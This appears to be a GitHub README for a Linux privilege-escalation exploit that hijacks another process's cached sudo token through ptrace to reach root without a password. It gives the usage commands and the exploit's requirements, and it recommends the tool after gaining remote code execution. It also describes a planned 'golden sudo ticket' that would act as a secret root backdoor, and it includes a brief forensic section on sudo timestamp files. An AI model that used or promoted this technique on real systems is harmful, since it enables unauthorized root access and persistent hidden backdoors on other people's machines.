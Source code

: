 # [Linux] Privilege Escalation by injecting process posseding sudo tokens.

#### Inject process that have valid sudo token and activate our own sudo token.

## How to use
PS: read requirements!!
```sh
$ sudo whatever
[sudo] password for user:    # Press <ctrl>+c since you don't have the password. # This creates an invalid sudo tokens.
$ ./exploit.sh # This activates our sudo token.
.... wait 3 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Requirements
=> Ptrace (for this implementation)

=> A currently living process that has a valid sudo token with the same uid.

```
The default password timeout is 15 minutes. So if you use sudo twice in 15 minutes (900 seconds), you will not be asked to type the user’s password again.
```
## Usecase

This is far from a generic privesc without requirements but it works, for instance if you have a RCE and don't have the user password but the user uses sudo then you can easily get root by stealing his token.

## Going further

### Forensic, DFIR ?

Printing to be improved but each process sudo attempt has one entry in /var/run/sudo/ts/[username]
```sh
./read_sudo_token_forensic  < /var/run/sudo/ts/user
version, flags, uid, sid, starttime_sec, starttime_nsec
2, 0, 0, 0, 0, 0
2, 0, 1001, 1145, 188, 660000000
2, 0, 1001, 24878, 7461, 490000000
2, 0, 1001, 24578, 6974, 10000000
```

### Golden sudo tickets

A very good way to create a secret root backdoor on servers that rarely reboots.
Not done yet but checkout './write_sudo_token $$' in ./extra_tools

### Why

I was looking for a way to steal dead process sudo token, but it doesn't look possible because they are associated by ((process start time and process session id) or (tty start time and tty session id)), and everything can be impressionnated except the start times which are relative to system boot time.

----
By [@chaignc][] [#HexpressoTeam][hexpresso].


[hexpresso]:     https://hexpresso.github.io
[@chaignc]:    https://twitter.com/chaignc

